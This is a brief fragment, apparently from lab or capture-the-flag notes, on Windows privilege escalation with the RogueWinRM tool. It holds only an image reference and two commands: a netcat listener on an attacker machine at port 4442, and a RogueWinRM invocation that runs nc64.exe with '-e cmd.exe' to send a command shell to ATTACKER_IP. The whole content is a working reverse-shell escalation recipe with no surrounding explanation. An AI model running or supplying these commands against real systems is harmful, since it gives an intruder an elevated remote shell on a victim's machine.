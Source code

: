 ![8080226702006f2b5c98badb2e540c7e.png](../../../../_resources/8080226702006f2b5c98badb2e540c7e.png)

```
user@attackerpc$ nc -lvp 4442
```

```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```